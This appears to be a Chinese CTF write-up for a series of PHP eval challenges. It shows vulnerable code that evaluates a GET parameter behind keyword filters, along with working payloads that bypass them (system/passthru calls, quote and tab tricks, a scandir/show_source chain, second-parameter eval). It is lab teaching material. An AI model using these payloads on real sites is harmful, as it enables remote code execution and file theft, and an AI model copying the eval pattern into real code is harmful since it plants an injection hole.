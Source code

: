 ```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

ban了"flag"这个字符利用匹配

```Python
?c=system("tac fl*");
?c=system("tac fla''g.php");
?c=system("tac fla``g.php");
```

#### 第二题

相比于上一题多ban了`php` , `system`

```Plain
?c=passthru("tac fl*");
```

#### 第三题

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

又是多ban了几个东西

```Python
#常规操作
?c=passthru("tac%09fla*");
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
?c=eval($_GET[a]);&a=system('tac flag.php');#这里只是过滤了c参数里面的内容，利用这个东西可以实现绕过
```

> 简单的解释一下这个`show_source(next(array_reverse(scandir(pos(localeconv())))));`

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=MWVjYzI2NDJlZWZmZDMzMzNhNTVmOTA4M2E2ZGM0N2FfdzhwZjJGTHNib3dDUGIyN1hGZ0VtbDJDRzVMamhmSnhfVG9rZW46VWN5SGI2eENhb1VzQ294SThRU2NsaFJibkZjXzE3MzY1MjE0ODE6MTczNjUyNTA4MV9WNA)

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YzcxNzExMmJiNzMyZGE5M2RiZDlhYjdiMWNkMWE3OGVfaFphb2ZpdTFNVjA2Z2syZ1J6RXFrSEhRVXRLaXlya0tfVG9rZW46QXdwUGJmZEpMb2NyTjF4NWZPQWNPQ3VTbkpiXzE3MzY1MjE0ODE6MTczNjUyNTA4MV9WNA)

`localeconv()` 返回当前地区设置的一个关联数组。

`pos(localeconv())` 获取该数组中的第一个元素。

将该元素作为目录路径，调用 `scandir()` 获取该目录中的文件列表。

反转文件列表（`array_reverse()`）。

返回反转后的文件列表中的下一个元素（`next()`）。
